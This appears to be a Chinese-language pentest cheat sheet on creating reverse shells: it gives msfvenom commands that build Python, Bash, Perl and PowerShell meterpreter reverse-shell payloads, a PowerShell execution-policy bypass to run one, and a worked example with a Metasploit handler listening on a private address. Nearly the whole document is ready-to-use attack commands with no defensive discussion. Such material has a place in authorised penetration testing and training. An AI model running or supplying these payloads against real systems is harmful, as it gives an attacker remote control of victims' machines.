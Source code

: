 # 脚本shell

关于使用脚本反弹shell的方式，主要以`python、bash、perl`为例。

## Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

## Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

## Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Powershell

```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1
```
然后使用`ps运行它才会执行反射payload`，执行代码：
```
powershell.exe -ExecutionPolicy Bypass -File shell.ps1
```
## 如何使用

下面就以Python为例做一下测试，使用以下命令生成一个脚本：
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py
```
在kali上使用msf执行下面的命令，监听端口4444：

msfconsole
```
use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
